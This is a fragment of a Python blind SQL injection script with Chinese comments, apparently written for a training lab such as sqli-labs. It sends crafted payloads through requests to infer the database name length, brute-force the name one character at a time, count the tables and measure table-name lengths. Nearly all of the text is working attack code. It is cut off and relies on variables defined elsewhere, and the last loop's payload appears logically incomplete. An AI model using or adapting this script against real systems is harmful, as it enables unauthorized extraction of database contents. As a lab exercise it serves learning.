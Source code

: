 	left = 97
	right = 123
	
	#查询当前数据库长度
	print("查询当前数据库长度。。。")
	for i in range(1, 21):
	    db_payload = "' and %d=(select length(database()))--+" % i
	    r = requests.get(url+db_payload)
	    if "You are in" in r.text:
	        db_len = i
	        break
	print("当前数据库长度为", db_len)
	
	#暴破当前数据库名
	print("暴破当前数据库名...")
	#数据库名长度
	for i in range(1, db_len+1):
	    #爆破字段区域
	    for j in range(left, right):
	        db_payload = "' and (left(database(), %d))='%s'--+" % (i, db_name+chr(j))
	        #print(url+db_payload)
	        r = requests.get(url+db_payload)
	        if "You are in" in r.text:
	            db_name += chr(j)
	            print('当前数据库名猜解：'+db_name)
	            break
	print("当前数据库名:\n[+]", db_name)
	
	#数据库中表数目
	print("当前数据库表数目....")
	for i in range(1,100):
	    db_payload = "' and %d=(select count(table_name) from information_schema.tables where table_schema='%s')--+" % (i, db_name)
	    #print(url+db_payload)
	    r = requests.get(url+db_payload)
	    if "You are in" in r.text:
	        table_num = i
	        break
	print("当前数据库表数目:", table_num)
	
	#数据库中表长度
	print("当前数据库表名长度....")
	for i in range(table_num):
	    table_len = 0 #表名长度
	    #获取数据表长度
	    for j in range(1, 21):
	        db_payload = "' and ascii(substr((select table_name from information_schema.tables where table_schema='%s' limit %d,1),%d,1))--+" % (db_name, i, j)
	        #print(url + db_payload)
	        r = requests.get(url + db_payload)
	        if "You are in" not in r.text:
	            table_len = j - 1
	            table_lenlist.append(table_len)
	            break
	print('表名长度：', table_lenlist)
	